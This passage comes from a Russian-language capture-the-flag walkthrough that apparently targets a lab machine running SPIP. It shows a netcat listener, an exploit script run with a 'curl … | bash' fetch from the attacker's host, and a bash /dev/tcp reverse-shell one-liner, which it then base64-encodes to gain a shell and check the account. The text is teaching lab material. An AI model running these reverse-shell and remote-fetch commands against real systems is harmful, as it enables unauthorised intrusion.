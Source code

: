 после этого на нашей kali linux запустим порт 4444 для прослушивания внешних подключений через netcat или сокращенно nc
```commandline
nc -lvnp 4444
```

переходим на нашей машине с kali linux в директорию где мы сохранили реверс шел и запускаем свой веб-сервер:

```commandline
cd Documents/01.publisher
python3 -m http.server 80
python exploit.py -h
```

после чего на целевой машине выполняем команду подключения к нашей кали линукс с передачей управления
```commandline
python exploit.py -u 'http://10.10.175.180/spip/' -c 'curl http://10.9.0.218/reverse.sh | bash' -v
```
скрипт отработал, но управление мы так и не получили.... Но этот шаг я специально так подробно описал что бы 
появилось понятие как должен работать реверс шел. Сначало Вы запускаете на своей машине порт для прослушивания, к  
котором потом подключаемся с целевой машины.

### 4. А теперь давайте добъемся подключения к нашей машине с машины жертвы, для этого:
-----------------------------------------------------------------------
загуглим как это сделать запросом google - bash reverse shell one line
перейдем по ссылке:
https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

найдем строку:
```commandline
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```
которая и является нашим реверс шелом, но на этот раз для нее мы не будем создавать отдельный файл, а попробуем 
сразу запустить на исполнение командой:
```commandline
bash -i >& /dev/tcp/10.9.0.218/4444 0>&1
```
код отработал, но подключение мы не получили, для этого нужно наш реверс-шел закодировать, при этом кодировку берем 
`base64` а для этого перейдем на соотв. страницу используя тот же поисковик google найдем - cyberchef
перейдем на страницу https://gchq.github.io/CyberChef/ и в окне поиска введем необходимую кодировку
```commandline
to base64
```
в окне `input` введем наш реверс шел:

```commandline
bash -i >& /dev/tcp/10.9.0.218/4444 0>&1
```
и в окне `output` получим уже закодированный в base64 реверс шел:
```commandline
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC45LjAuMjE4LzQ0NDQgMD4mMQ==
```
таким образом наша итоговай команда будет выглядеть вот таким образом:
```commandline
python exploit.py -u 'http://10.10.175.180/spip/' -c 'echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC45LjAuMjE4LzQ0NDQgMD4mMQ== | base64 -d | bash' -v
```
отлично мы подключились, проверим допустимые нам права и под какой учеткой мы работаем:
```commandline
ls
id 
```